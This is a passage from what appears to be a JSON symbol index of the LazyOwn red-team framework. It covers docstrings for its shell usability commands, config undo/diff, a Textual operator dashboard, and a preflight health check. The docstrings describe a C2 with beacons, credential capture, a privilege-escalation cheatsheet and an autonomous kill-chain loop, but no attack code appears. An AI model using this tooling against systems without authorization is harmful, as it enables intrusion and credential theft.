"do_scandiscovery", "signature": "def do_scandiscovery(self, line)"}, {"doc": "Fuse estorides OSINT entities into the campaign intel graphs.\n\nUsage: estorides_intel [--run] [--world-model] [--cap N] [--cli PATH]\n\nRefreshes ``sessions/estorides_lazyown.json`` from the estorides\ncheckout (``--run`` forces re-export), merges entities into the\nintel + attack graphs (matching IPs/values fuse nodes, new ones\narrive tagged), refreshes ``intel_summary.json`` for the\nautonomous loop, and optionally writes new hosts into\n``world_model.json`` (``--world-model``, feeds the killchain).", "kind": "method", "line": 86, "name": "do_estorides_intel", "signature": "def do_estorides_intel(self, line)"}]}, {"doc": "Usability commands: hud, undo, config_diff, cheat, suggest.  These commands close the highest-impact UX gaps without touching the legacy shell: a one-glance session HUD, configuration undo and diff, an in-shell cheatsheet renderer, and fuzzy typo correction. All data helpers live in their own contracts; this set only wires them to cmd2.", "id": "cli/commands/ux.py", "kind": "module", "label": "ux.py", "language": "py", "sha256": "a0bf0ab3edc61b72", "symbol_count": 9, "symbols": [{"doc": "Session HUD, config undo, cheatsheet and fuzzy suggestion.", "kind": "class", "line": 39, "name": "UxCommandSet", "signature": "class UxCommandSet(LazyOwnCommandSet)"}, {"doc": "Session counters: elapsed time, commands run, material captured.\n\nComplements rather than repeats the other commands. ``killchain``\nowns the kill-chain phases, the status bar already shows target and\nphase, and ``sitrep`` owns the full picture. This shows only what\nnothing else reports: how long this session has run, how many\ncommands it executed, and how many credentials and notes exist.\n\nUsage:\n    ``hud``          — two counter lines\n    ``hud --json``   — machine-readable JSON without ANSI\n    ``hud --plain``  — plain text without colours", "kind": "method", "line": 46, "name": "do_hud", "signature": "def do_hud(self, line)"}, {"doc": "Revert the last assign/set configuration change.\n\nUsage:\n    ``undo``", "kind": "method", "line": 85, "name": "do_undo", "signature": "def do_undo(self, line)"}, {"doc": "Show what changed since the session started.\n\nUsage:\n    ``config_diff``          — human-readable list\n    ``config_diff --json``   — machine-readable JSON", "kind": "method", "line": 115, "name": "do_config_diff", "signature": "def do_config_diff(self, line)"}, {"doc": "Render a cheatsheet section inside the shell.\n\nUsage:\n    ``cheat``          — list available topics\n    ``cheat recon``    — recon commands with examples\n    ``cheat privesc``  — privilege escalation checklist", "kind": "method", "line": 140, "name": "do_cheat", "signature": "def do_cheat(self, line)"}, {"doc": "Raise a toast notification inside the cmd2 shell.\n\nThe shell already renders toasts after every command; this command\nlets you raise one yourself. Use it to flag state changes for\nyourself or for a teammate tailing the same session. The persistent\nascii panel is the default; ``--live`` renders the same event as a\nsonner-style auto-expiring line through the shared toast bus.\n\nUsage:\n    ``toast <message>``                      — info level\n    ``toast <message> --level success``      — success / warn / error\n    ``toast <message> --type beacon``        — custom label\n    ``toast <message> --now``                — print immediately\n    ``toast <message> --live``               — ephemeral line, auto-erases on TTY\n    ``toast <message> --live --duration 2``  — ephemeral with 2s delay\n    ``toast <message> --dry-run``            — show what would be written", "kind": "method", "line": 167, "name": "do_toast", "signature": "def do_toast(self, line)"}, {"doc": "Fuzzy command suggestion for typos and fragments.\n\nUsage:\n    ``suggest nmp``      — suggests lazynmap, nmap variants\n    ``suggest gobustr``  — suggests gobuster", "kind": "method", "line": 261, "name": "do_suggest", "signature": "def do_suggest(self, line)"}, {"doc": "Return searchable command names from the shell or aliases.", "kind": "method", "line": 281, "name": "_candidate_commands", "signature": "def _candidate_commands(self)"}, {"doc": "Locate a cheatsheet section matching query.\n\nArgs:\n    query: Lowercase topic fragment.\n\nReturns:\n    Tuple of section title and (goal, command) rows, or None.", "kind": "method", "line": 298, "name": "_find_cheat_section", "signature": "def _find_cheat_section(query)"}]}, {"doc": "In-memory configuration history with undo and diff.  Assign and set commands mutate payload.json without a safety net. This value object keeps a bounded stack of snapshots so undo restores the previous state and diff explains what changed since session start.", "id": "cli/config_history.py", "kind": "module", "label": "config_history.py", "language": "py", "sha256": "dcec41bea9325808", "symbol_count": 9, "symbols": [{"doc": "Centralized knobs for history depth.", "kind": "class", "line": 16, "name": "ConfigHistoryConfig", "signature": "class ConfigHistoryConfig"}, {"doc": "Bounded stack of configuration snapshots.", "kind": "class", "line": 23, "name": "ConfigHistory", "signature": "class ConfigHistory"}, {"doc": "Return the ConfigHistory bound to a shell, creating it on demand.\n\nArgs:\n    shell: Parent shell object used as attribute host.\n\nReturns:\n    The shared ConfigHistory instance.", "kind": "function", "line": 81, "name": "get_shell_history", "signature": "def get_shell_history(shell)"}, {"doc": "Capture baseline on first use then push a pre-mutation snapshot.\n\nArgs:\n    history: Shared history instance.\n    state: Configuration mapping before mutation.", "kind": "function", "line": 104, "name": "track_before", "signature": "def track_before(history, state)"}, {"doc": "Store session-start snapshot used by diff.\n\nArgs:\n    state: Current configuration mapping.", "kind": "method", "line": 30, "name": "capture_baseline", "signature": "def capture_baseline(self, state)"}, {"doc": "Push a snapshot before mutation.\n\nArgs:\n    state: Configuration mapping before the change.", "kind": "method", "line": 38, "name": "push", "signature": "def push(self, state)"}, {"doc": "Pop the newest snapshot.\n\nReturns:\n    Previous state or None when the stack is empty.", "kind": "method", "line": 48, "name": "undo", "signature": "def undo(self)"}, {"doc": "Compare current state against the baseline.\n\nArgs:\n    current: Live configuration mapping.\n\nReturns:\n    Mapping of key to (old, new) for changed keys only.", "kind": "method", "line": 58, "name": "diff", "signature": "def diff(self, current)"}, {"doc": "Return number of stored undo steps.", "kind": "method", "line": 76, "name": "depth", "signature": "def depth(self)"}]}, {"doc": "Simplified configuration status display for the LazyOwn shell.  Groups payload.json fields by category, shows which are set, which need attention, and which are optional -- replacing the raw JSON dump with a human-friendly overview.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``ConfigStatus`` receives a params dict; never reads payload.json directly.", "id": "cli/config_status.py", "kind": "module", "label": "config_status.py", "language": "py", "sha256": "9aa86d07c104e09b", "symbol_count": 6, "symbols": [{"doc": "Centralised constants for config status display.", "kind": "class", "line": 55, "name": "ConfigStatusConfig", "signature": "class ConfigStatusConfig"}, {"doc": "Display grouped configuration status.\n\nArgs:\n    params: Live params dict from the shell.\n    config: Optional config override.", "kind": "class", "line": 62, "name": "ConfigStatus", "signature": "class ConfigStatus"}, {"kind": "method", "line": 70, "name": "__init__", "signature": "def __init__(self, params, config)"}, {"doc": "Return (status_label, color) for a field value.", "kind": "method", "line": 78, "name": "_field_status", "signature": "def _field_status(self, key, value)"}, {"doc": "Render the grouped configuration status table.", "kind": "method", "line": 89, "name": "render_status", "signature": "def render_status(self)"}, {"doc": "Quick check: show only required fields that are not set.", "kind": "method", "line": 129, "name": "render_quick_check", "signature": "def render_quick_check(self)"}]}, {"doc": "Shared interactive confirmation helpers with safe non-TTY behaviour.  Every interactive prompt in the CLI should go through :func:`confirm` so agent-driven sessions (stdin closed or non-interactive) degrade gracefully instead of crashing with ``EOFError`` or hanging on a prompt that can never be answered.  Behaviour matrix:  - TTY stdin: prompt and wait for y/n. - Non-TTY stdin (pipe/EOF): return ``default`` immediately. - Empty answer: return ``default``.", "id": "cli/confirm.py", "kind": "module", "label": "confirm.py", "language": "py", "sha256": "8ff118609f8f3cac", "symbol_count": 2, "symbols": [{"kind": "function", "line": 20, "name": "_read_line", "signature": "def _read_line(prompt)"}, {"doc": "Ask a yes/no question, never raising on non-interactive stdin.\n\nArgs:\n    question: The question to show (a trailing `` [y/N] `` is appended).\n    default: Answer returned when stdin is not a TTY or input is empty.\n    yes_values: Case-insensitive answers treated as yes.\n\nReturns:\n    True when the operator answered yes, False otherwise.", "kind": "function", "line": 27, "name": "confirm", "signature": "def confirm(question, default, yes_values)"}]}, {"doc": "Contextual help system for the LazyOwn shell.  Extends the default ``cmd2`` help with phase, requirements, examples, and alias information sourced from the command index and the shell state.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``ContextualHelp`` receives its dependencies via constructor.", "id": "cli/contextual_help.py", "kind": "module", "label": "contextual_help.py", "language": "py", "sha256": "bd618d4760a963d8", "symbol_count": 10, "symbols": [{"doc": "Enriched command information for contextual help.", "kind": "class", "line": 62, "name": "CommandInfo", "signature": "class CommandInfo"}, {"doc": "Centralised constants for contextual help.", "kind": "class", "line": 78, "name": "ContextualHelpConfig", "signature": "class ContextualHelpConfig"}, {"doc": "Load the command index JSON. Returns empty dict on failure.", "kind": "function", "line": 85, "name": "_load_command_index", "signature": "def _load_command_index(path)"}, {"doc": "Build a name -> info lookup from the command index.", "kind": "function", "line": 97, "name": "_build_command_lookup", "signature": "def _build_command_lookup(index)"}, {"doc": "Enriched help provider for LazyOwn commands.\n\nArgs:\n    aliases: Live aliases dict from the shell.\n    params: Live params dict from the shell.\n    config: Optional config override.", "kind": "class", "line": 167, "name": "ContextualHelp", "signature": "class ContextualHelp"}, {"kind": "method", "line": 176, "name": "__init__", "signature": "def __init__(self, aliases, params, config)"}, {"doc": "Return enriched info for a command, or None if not found.", "kind": "method", "line": 188, "name": "get_command_info", "signature": "def get_command_info(self, name)"}, {"doc": "Render contextual help for a single command. Returns True if rendered.", "kind": "method", "line": 208, "name": "render_command_help", "signature": "def render_command_help(self, name)"}, {"doc": "Render all commands for a given phase.", "kind": "method", "line": 261, "name": "render_phase_commands", "signature": "def render_phase_commands(self, phase)"}, {"doc": "Show which requirements are met for the current session.", "kind": "method", "line": 281, "name": "render_requirements_status", "signature": "def render_requirements_status(self)"}]}, {"doc": "Responsive layout decisions for the Textual operator dashboard.  Small terminals crush the fixed three-column layout. This module keeps the width thresholds and panel visibility rules in one testable place; the dashboard app only toggles CSS classes based on these answers.", "id": "cli/dashboard_layout.py", "kind": "module", "label": "dashboard_layout.py", "language": "py", "sha256": "f08fc574033a19c6", "symbol_count": 3, "symbols": [{"doc": "Centralized knobs for responsive breakpoints.", "kind": "class", "line": 14, "name": "DashboardLayoutConfig", "signature": "class DashboardLayoutConfig"}, {"doc": "Return the layout bucket for a terminal width.\n\nArgs:\n    width: Terminal width in columns.\n    config: Breakpoint configuration.\n\nReturns:\n    wide, narrow or compact.", "kind": "function", "line": 28, "name": "layout_mode", "signature": "def layout_mode(width, config)"}, {"doc": "Return panel ids hidden in the given layout mode.\n\nArgs:\n    mode: One of wide, narrow or compact.\n\nReturns:\n    Tuple of widget ids to hide. Wide hides nothing, narrow hides\n    the reasoning panel, compact additionally hides the right column.", "kind": "function", "line": 45, "name": "hidden_panels", "signature": "def hidden_panels(mode)"}]}, {"doc": "LazyOwn operator dashboard — a full-screen Textual TUI.  Launch from the LazyOwn shell with ``dashboard`` or directly:  python3 -m cli.dashboard_tui [--payload PATH] [--sessions PATH]  The dashboard auto-refreshes every REFRESH_INTERVAL seconds. Press Q or Ctrl-C to close and return to the cmd2 shell.  Layout: ┌─ Header (target / domain / phase / OS) ─────────────────────────────┐ │  Left (Kill Chain + Config)  │  Center (Commands) │ Right (Ops)      │ ├──────────────────────────────────────────────────────────────────────┤ │  Hint bar (graph suggestions)                                        │ └─ Footer ([Q] Quit  [R] Refresh  [?] Help) ──────────────────────────┘", "id": "cli/dashboard_tui.py", "kind": "module", "label": "dashboard_tui.py", "language": "py", "sha256": "e0d9f0f8af044433", "symbol_count": 64, "symbols": [{"doc": "Return kill-chain progress as :class:`PhaseProgress`-compatible list.\n\nDerives state exclusively from ``KillChain.get_progress`` (world model)\nso the dashboard TUI, Flask `/killchain`, and CLI agree on every phase.", "kind": "function", "line": 55, "name": "_get_killchain_for_tui", "signature": "def _get_killchain_for_tui()"}, {"doc": "Posted when the operator submits a command or clicks a hint button.", "kind": "class", "line": 97, "name": "CommandRequested", "signature": "class CommandRequested(Message)"}, {"doc": "Posted when the operator clicks a kill-chain phase row.", "kind": "class", "line": 105, "name": "PhaseSelected", "signature": "class PhaseSelected(Message)"}, {"doc": "Run one LazyOwn command headlessly and capture its output.\n\nUses the supported ``lazyown.py --headless --command`` entry point with\nlist-form argv so the operator input never reaches a shell. A crashing or\nhanging command cannot take the dashboard down with it.\n\nArgs:\n    command: Command line typed by the operator.\n    timeout: Seconds before the child process is killed.\n\nReturns:\n    Tuple of (success, output). Output is stdout, or stderr when the\n    process failed without producing stdout.", "kind": "function", "line": 113, "name": "dispatch_command", "signature": "def dispatch_command(command, timeout)"}, {"kind": "function", "line": 151, "name": "_read_json", "signature": "def _read_json(path)"}, {"doc": "Map a WorldModel EngagementPhase value to a CLI phase name.\n\nDelegates to the single source of truth in :class:`modules.killchain.KillChain`.", "kind": "function", "line": 159, "name": "_engagement_to_cli_phase", "signature": "def _engagement_to_cli_phase(engagement_phase)"}, {"kind": "function", "line": 169, "name": "_count_lines_in_glob", "signature": "def _count_lines_in_glob(pattern)"}, {"kind": "function", "line": 182, "name": "_read_recent_commands", "signature": "def _read_recent_commands(limit)"}, {"kind": "function", "line": 209, "name": "_graph_hints", "signature": "def _graph_hints(limit)"}, {"doc": "Suggest next steps from the static kill-chain tables.\n\nThe graph advisor needs a built ``graphify-out/`` graph. Without one the\nhint bar used to render an empty placeholder, which made the whole\nfeature invisible. The adjacency and phase-priority tables in\n:mod:`cli.reactive_hints` are always present, so they act as the\nbaseline and the graph only refines it.\n\nArgs:\n    last_command: Most recent command line, used for adjacency lookup.\n    limit: Maximum suggestions to return.\n\nReturns:\n    Suggested command verbs, possibly empty when every candidate has\n    already run this session.", "kind": "function", "line": 223, "name": "_fallback_hints", "signature": "def _fallback_hints(last_command, limit)"}, {"doc": "Return actionable hints, preferring the graph over the static tables.\n\nArgs:\n    recent: Recent command entries from the transcript.\n    limit: Maximum suggestions to return.\n\nReturns:\n    Non-empty hint list when any source can produce one.", "kind": "function", "line": 248, "name": "_resolve_hints", "signature": "def _resolve_hints(recent, limit)"}, {"kind": "function", "line": 265, "name": "_beacon_count", "signature": "def _beacon_count()"}, {"doc": "Read actual credential lines from credential files.", "kind": "function", "line": 280, "name": "_read_credential_lines", "signature": "def _read_credential_lines(pattern)"}, {"doc": "Get next-step recommendations from the recommendation engine.", "kind": "function", "line": 297, "name": "_get_recommendations", "signature": "def _get_recommendations()"}, {"doc": "Top info bar: target, domain, phase, OS.", "kind": "class", "line": 322, "name": "TargetPanel", "signature": "class TargetPanel(Static)"}, {"doc": "Left panel: kill chain phase progress — single source of truth via KillChain.", "kind": "class", "line": 378, "name": "KillChainPanel", "signature": "class KillChainPanel(Static)"}, {"doc": "Left panel: key payload.json values.", "kind": "class", "line": 430, "name": "ConfigPanel", "signature": "class ConfigPanel(Static)"}, {"doc": "Center panel: recent executed commands.", "kind": "class", "line": 460, "name": "CommandsPanel", "signature": "class CommandsPanel(Static)"}, {"doc": "Center panel: live autonomous-daemon reasoning stream.", "kind": "class", "line": 495, "name": "ReasoningPanel", "signature": "class ReasoningPanel(Static)"}, {"doc": "Right panel: objectives, credentials, beacons.", "kind": "class", "line": 532, "name": "OpsPanel", "signature": "class OpsPanel(Static)"}, {"doc": "Bottom bar: graph-driven next steps rendered as one-click buttons.", "kind": "class", "line": 587, "name": "HintBar", "signature": "class HintBar(Horizontal)"}, {"doc": "Notification panel rendering the cmd2 toast stream unchanged.\n\nUses :func:`cli.toast_bus.read_recent_toasts` and\n:func:`cli.toast_bus.build_toast_renderable`, so the dashboard shows the\nsame themed ``notifications`` panel the shell prints. It tails the event\nfile instead of consuming it, so raising a toast in one surface never\nhides it from the other.", "kind": "class", "line": 653, "name": "ToastPanel", "signature": "class ToastPanel(Static)"}, {"doc": "Center panel: scrollable output of commands run from the dashboard.", "kind": "class", "line": 693, "name": "OutputPanel", "signature": "class OutputPanel(Log)"}, {"doc": "Right panel: AI-ranked next-step recommendations.", "kind": "class", "line": 706, "name": "NextStepsPanel", "signature": "class NextStepsPanel(Static)"}, {"doc": "Full-screen operator dashboard for LazyOwn.\n\nReads payload.json, sessions/, and the graphify knowledge graph.\nAuto-refreshes every REFRESH_INTERVAL seconds. Press Q to quit.", "kind": "class", "line": 738, "name": "LazyOwnDashboard", "signature": "class LazyOwnDashboard(App)"}, {"doc": "Launch the dashboard and block until the user quits.\n\nArgs:\n    payload_path: Path to payload.json.\n    sessions_dir: Path to the sessions directory.", "kind": "function", "line": 1064, "name": "launch", "signature": "def launch(payload_path, sessions_dir)"}, {"kind": "method", "line": 100, "name": "__init__", "signature": "def __init__(self, command)"}, {"kind": "method", "line": 108, "name": "__init__", "signature": "def __init__(self, phase)"}, {"doc": "Override to prevent IndexError when selection offsets exceed text length.\n\nRich ``Text`` objects may produce ``Content`` whose plain-text length is\nshorter than the character offsets derived by the framework, leading to\na crash in ``Selection.extract``. This override safely returns ``None``\nwhen the selection is invalid.", "kind": "method", "line": 335, "name": "get_selection", "signature": "def get_selection(self, selection)"}, {"kind": "method", "line": 348, "name": "render_content", "signature": "def render_content(self, payload, world)"}, {"kind": "method", "line": 374, "name": "update_data", "signature": "def update_data(self, payload, world)"}, {"kind": "method", "line": 393, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Render kill-chain progress. ``progress`` comes from KillChain.get_progress().", "kind": "method", "line": 397, "name": "update_data", "signature": "def update_data(self, progress)"}, {"doc": "Select the phase whose row was clicked.\n\nArgs:\n    event: Textual click event carrying a widget-relative offset.", "kind": "method", "line": 418, "name": "on_click", "signature": "def on_click(self, event)"}, {"kind": "method", "line": 442, "name": "update_data", "signature": "def update_data(self, payload)"}, {"kind": "method", "line": 472, "name": "update_data", "signature": "def update_data(self, commands)"}, {"doc": "Render the most recent daemon decisions, newest first.", "kind": "method", "line": 507, "name": "update_data", "signature": "def update_data(self, entries)"}, {"kind": "method", "line": 544, "name": "update_data", "signature": "def update_data(self, world, tasks, creds, hashes, beacons, cred_lines)"}, {"kind": "method", "line": 610, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 615, "name": "compose", "signature": "def compose(self)"}, {"doc": "Replace the hint buttons with one button per suggestion.\n\nOnly buttons are recreated. The label is mounted once in\n:meth:`compose` and reused, so a five-second refresh with no hints\ncannot accumulate placeholder widgets. Buttons carry no id because\nTextual removal is deferred: reusing ``hint-<name>`` ids would\ncollide with the previous, not-yet-removed button.\n\nArgs:\n    hints: Suggested command names, best first.", "kind": "method", "line": 619, "name": "update_data", "signature": "def update_data(self, hints)"}, {"doc": "Run the clicked suggestion as if it had been typed.\n\nArgs:\n    event: Button press event.", "kind": "method", "line": 644, "name": "on_button_pressed", "signature": "def on_button_pressed(self, event)"}, {"doc": "Render the latest notifications for the active theme.\n\nArgs:\n    payload: Loaded payload used to resolve the theme.\n    sessions_dir: Sessions root holding the event files.\n    width: Panel width. ``0`` lets the formatter auto-clamp.", "kind": "method", "line": 671, "name": "update_data", "signature": "def update_data(self, payload, sessions_dir, width)"}, {"kind": "method", "line": 718, "name": "update_data", "signature": "def update_data(self, recommendations)"}, {"kind": "method", "line": 807, "name": "__init__", "signature": "def __init__(self, payload_path, sessions_dir)"}, {"doc": "Toggle compact CSS classes from a layout mode name.\n\nArgs:\n    mode: One of wide, narrow or compact.\n    hidden_fn: Callable mapping mode to hidden widget ids.", "kind": "method", "line": 819, "name": "_apply_layout", "signature": "def _apply_layout(self, mode, hidden_fn)"}, {"kind": "method", "line": 836, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 855, "name": "on_mount", "signature": "def on_mount(self)"}, {"doc": "Run the typed command and clear the input.\n\nArgs:\n    event: Input submission event.", "kind": "method", "line": 860, "name": "on_input_submitted", "signature": "def on_input_submitted(self, event)"}, {"doc": "Dispatch a command in a worker so the UI never blocks.\n\nArgs:\n    event: Request posted by the input or a hint button.", "kind": "method", "line": 872, "name": "on_command_requested", "signature": "def on_command_requested(self, event)"}, {"doc": "Run one command off the event loop and hand the result back.\n\nWidgets may only be touched from the event loop, so the worker\nperforms the subprocess call and then marshals the result through\n``call_from_thread``.\n\nArgs:\n    command: Command line to run.", "kind": "method", "line": 881, "name": "_execute", "signature": "def _execute(self, command)"}, {"doc": "Log a finished command and refresh the panels on the event loop.\n\nArgs:\n    command: Command that was run.\n    success: Whether the dispatcher reported success.\n    output: Captured stdout, or stderr on failure.", "kind": "method", "line": 894, "name": "_apply_command_result", "signature": "def _apply_command_result(self, command, success, output)"}, {"doc": "Filter the center panel to a phase chosen by clicking the kill chain.\n\nArgs:\n    event: Phase selection posted by the kill-chain panel.", "kind": "method", "line": 912, "name": "on_phase_selected", "signature": "def on_phase_selected(self, event)"}, {"kind": "method", "line": 923, "name": "action_refresh_data", "signature": "def action_refresh_data(self)"}, {"doc": "Toggle the compact single-column layout for narrow terminals.", "kind": "method", "line": 926, "name": "action_toggle_compact", "signature": "def action_toggle_compact(self)"}, {"doc": "Publish a dashboard event into the shared toast stream.\n\nThe cmd2 shell renders these on its next command, so both surfaces\nstay in sync instead of the dashboard owning a private channel.\n\nArgs:\n    message: Human-readable one-liner.\n    severity: Theme severity key.\n    event_type: Short label rendered before the message.", "kind": "method", "line": 938, "name": "_raise_toast", "signature": "def _raise_toast(self, message, severity, event_type)"}, {"doc": "Save an SVG screenshot next to the sessions directory.", "kind": "method", "line": 956, "name": "action_screenshot", "signature": "def action_screenshot(self)"}, {"doc": "Export the current dashboard data as JSON for automation.", "kind": "method", "line": 967, "name": "action_export_snapshot", "signature": "def action_export_snapshot(self)"}, {"doc": "Advance to the next kill-chain phase and refresh the display.", "kind": "method", "line": 987, "name": "action_next_phase", "signature": "def action_next_phase(self)"}, {"doc": "Step back to the previous kill-chain phase.", "kind": "method", "line": 991, "name": "action_prev_phase", "signature": "def action_prev_phase(self)"}, {"kind": "method", "line": 995, "name": "_cycle_phase", "signature": "def _cycle_phase(self, direction)"}, {"kind": "method", "line": 1011, "name": "_do_refresh", "signature": "def _do_refresh(self)"}, {"doc": "Keep only commands belonging to the phase selected by click.\n\nArgs:\n    commands: Recent command entries from the transcript.\n\nReturns:\n    Entries matching the active phase, or all of them when no\n    phase filter is active.", "kind": "method", "line": 1048, "name": "_filter_commands", "signature": "def _filter_commands(self, commands)"}, {"kind": "function", "line": 43, "name": "_write_phase", "signature": "def _write_phase(phase)"}]}, {"doc": "Environment health check (preflight doctor) for the LazyOwn framework.  Complements the setup wizard. Where ``wizard`` / ``wizard --check`` validate the operator's *configuration* (the values in ``payload.json``), ``doctor`` validates the *installation* itself: the running Python version, whether the virtual environment is active, importability of the third-party packages that ``install.sh`` provisions, the presence of the C2 TLS certificates, the ``payload.json`` config file, the SecLists wordlists, and the external kill-chain tooling.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py`` (Dependency Inversion); the command surface depends on this module, never the reverse. - Pure check functions return :class:`CheckResult` objects and never print, so they are unit-testable without capturing stdout. Rendering is isolated in :func:`render_report`. - External-tool and SecLists detection is delegated to :mod:`cli.wizard` so the framework keeps a single source of truth for those checks (DRY). - System-touching dependencies (the package finder, the binary checker, the filesystem root) are injected so tests can stub them deterministically.", "id": "cli/doctor.py", "kind": "module", "label": "doctor.py", "language": "py", "sha256": "81a397e7adcce604", "symbol_count": 21, "symbols": [{"doc": "Declarative description of a Python dependency the framework imports.\n\nAttributes:\n    import_name: Module name passed to the import machinery. Differs from\n        the distribution name for several packages (``yaml`` vs ``pyyaml``,\n        ``bs4`` vs ``beautifulsoup4``, ``Crypto`` vs ``pycryptodome``).\n    pip_name: Distribution name shown in the remediation hint.\n    purpose: One-line description of what breaks without the package.\n    required: When ``True`` a missing package is a hard failure; when\n        ``False`` it is advisory because only an optional feature degrades.", "kind": "class", "line": 56, "name": "PackageSpec", "signature": "class PackageSpec"}, {"doc": "Outcome of a single preflight check.\n\nAttributes:\n    name: Short human-readable label for the check.\n    status: One of :data:`STATUS_OK`, :data:`STATUS_WARN`, :data:`STATUS_FAIL`.\n    detail: Description of what was found.\n    hint: Optional remediation command shown when the check is not ``ok``.", "kind": "class", "line": 96, "name": "CheckResult", "signature": "class CheckResult"}, {"doc": "Aggregated result of a full preflight run.", "kind": "class", "line": 113, "name": "DoctorReport", "signature": "class DoctorReport"}, {"doc": "Verify the interpreter satisfies :data:`MIN_PYTHON_VERSION`.\n\nArgs:\n    version_info: Two-or-more element sequence of ``(major, minor, ...)``.\n        Injected so tests can assert both the satisfied and unsatisfied\n        branches without spawning a second interpreter.\n\nReturns:\n    A :class:`CheckResult` flagged ``fail`` below the minimum version.", "kind": "function", "line": 143, "name": "check_python_version", "signature": "def check_python_version(version_info)"}, {"doc": "Report whether the framework is running inside its virtual environment.\n\nArgs:\n    prefix: Active interpreter prefix (``sys.prefix``).\n    base_prefix: System interpreter prefix (``sys.base_prefix``). ``None``\n        collapses to ``prefix`` for ancient interpreters.\n    root: Repository root used to locate the ``env/`` directory.\n\nReturns:\n    ``ok`` when an isolated environment is active; ``warn`` otherwise so the\n    operator is nudged to activate ``env/`` without blocking the session.", "kind": "function", "line": 172, "name": "check_virtualenv", "signature": "def check_virtualenv()"}, {"doc": "Verify every dependency in ``specs`` is importable without importing it.\n\nUses :func:`importlib.util.find_spec` so the check stays side-effect free:\nno third-party module is actually executed, mirroring the safety contract of\n:func:`cli.wizard.check_binaries`.\n\nArgs:\n    specs: Package specifications to verify.\n    finder: ``find_spec``-compatible callable. Injected for tests.\n\nReturns:\n    One :class:`CheckResult` per spec, in input order.", "kind": "function", "line": 209, "name": "check_packages", "signature": "def check_packages(specs, finder)"}, {"doc": "Verify the self-signed C2 certificate pair exists.\n\nArgs:\n    root: Repository root containing ``cert.pem`` / ``key.pem``.\n\nReturns:\n    ``warn`` when either file is missing because the certificates are only\n    needed once the C2 starts, not for CLI-only recon.", "kind": "function", "line": 248, "name": "check_certificates", "signature": "def check_certificates(root)"}, {"doc": "Verify ``payload.json`` exists in the repository root.\n\nArgs:\n    root: Repository root.\n\nReturns:\n    ``fail`` when absent because every component reads this single config\n    source; the framework cannot run without it.", "kind": "function", "line": 269, "name": "check_payload", "signature": "def check_payload(root)"}, {"doc": "Verify a SecLists installation is discoverable on disk.\n\nArgs:\n    finder: Callable returning the SecLists root or ``None``. Defaults to\n        :func:`cli.wizard._find_seclists_root` so the candidate paths are\n        defined once.\n\nReturns:\n    ``warn`` when not found because wordlist paths can be set manually.", "kind": "function", "line": 289, "name": "check_seclists", "signature": "def check_seclists(finder)"}, {"kind": "function", "line": 313, "name": "check_command_index", "signature": "def check_command_index(root)"}, {"doc": "Adapt :func:`cli.wizard.check_binaries` into preflight check results.\n\nMissing external tools are reported as ``warn`` rather than ``fail`` because\neach tool only powers a subset of the kill-chain; recon can proceed while,\nfor example, ``evil-winrm`` is absent.\n\nArgs:\n    checker: Callable returning :class:`cli.wizard.BinaryStatus` items.\n\nReturns:\n    One :class:`CheckResult` per external tool.", "kind": "function", "line": 343, "name": "check_external_tools", "signature": "def check_external_tools(checker)"}, {"doc": "Run every preflight check and collect the results without printing.\n\nArgs:\n    root: Repository root used for file-presence checks.\n\nReturns:\n    A populated :class:`DoctorReport`.", "kind": "function", "line": 368, "name": "gather_report", "signature": "def gather_report(root)"}, {"kind": "function", "line": 398, "name": "_status_cell", "signature": "def _status_cell(status)"}, {"doc": "Render a :class:`DoctorReport` as a rich table with a summary banner.\n\nArgs:\n    report: The report to display.\n    console: Optional rich console; a default highlight-free console is\n        created when omitted.", "kind": "function", "line": 406, "name": "render_report", "signature": "def render_report(report, console)"}, {"doc": "Gather and render the preflight report.\n\nArgs:\n    root: Repository root. Defaults to the parent of this package.\n    console: Optional rich console for rendering.\n\nReturns:\n    The :class:`DoctorReport` so callers can inspect the result\n    programmatically (for example to choose a process exit code).", "kind": "function", "line": 451, "name": "run", "signature": "def run(root, console)"}, {"doc": "Interactively offer to fix every failure and warning in the report.\n\nFor each non-ok check the operator is prompted (unless *auto_yes* is set)\nwhether to attempt automatic remediation.  After all fixes the report is\nre-gathered and re-rendered so the operator sees the updated status.\n\nArgs:\n    report: The pre-flight report to fix.\n    root: Repository root for re-checking after fixes.\n    console: Rich console for I/O.\n    auto_yes: When ``True``, fix every check without prompting.\n\nReturns:\n    A fresh :class:`DoctorReport` after attempted fixes.", "kind": "function", "line": 468, "name": "fix_report", "signature": "def fix_report(report)"}, {"doc": "Execute the remediation for a single check. Returns True on success.", "kind": "function", "line": 525, "name": "_apply_fix", "signature": "def _apply_fix(check, root, venv_pip, console)"}, {"doc": "Return the checks whose status is :data:`STATUS_FAIL`.", "kind": "method", "line": 119, "name": "failures", "signature": "def failures(self)"}, {"doc": "Return the checks whose status is :data:`STATUS_WARN`.", "kind": "method", "line": 124, "name": "warnings", "signature": "def warnings(self)"}, {"doc": "Return ``True`` when no check failed (warnings are tolerated).", "kind": "method", "line": 129, "name": "healthy", "signature": "def healthy(self)"}, {"doc": "Return the worst status across every check.", "kind": "method", "line": 134, "name": "overall_status", "signature": "def overall_status(self)"}]}, {"doc": "Curiosity-driven engagement engine for LazyOwn.  Two psychological mechanisms drive operator adoption:  1. Biological Curiosity (Loewenstein Information Gap Theory, 1994) Curiosity arises when we perceive a gap between what we know and what we want to know.  The engine surfaces ONE undiscovered command after each execution, chosen from the same kill-chain phase as the command just run. The gap is made explicit: \"You haven't tried X — it does Y.\"  The operator knows something useful exists, doesn't know how it works, and is pulled to explore it.  Same suggestion never repeats in a session.  2. Variable Interval Reinforcement (Skinner, 1957) The most durable reinforcement schedule known to behavioural science. Rewards appear at unpredictable command counts (drawn from a geometric distribution with mean MEAN_INTERVAL).  Because the operator cannot predict WHEN the next reward arrives, the behaviour of \"run another command\" is maintained even in the absence of an immediate payoff.  Rewards are genuinely useful: streak acknowledgements, exploration milestones, hidden-feature reveals, phase-progression badges.  Architecture ------------ - Zero imports from lazyown.py, lazyc2.py, or Flask. - All I/O is wrapped in try/except; failure is always silent. - Output via rich.Console so ANSI is correct on every terminal. - State persisted to ``sessions/engagement_state.json`` (cross-session). - The caller (shell postcmd hook) passes a minimal context dict; this module never reads payload.json directly.", "id": 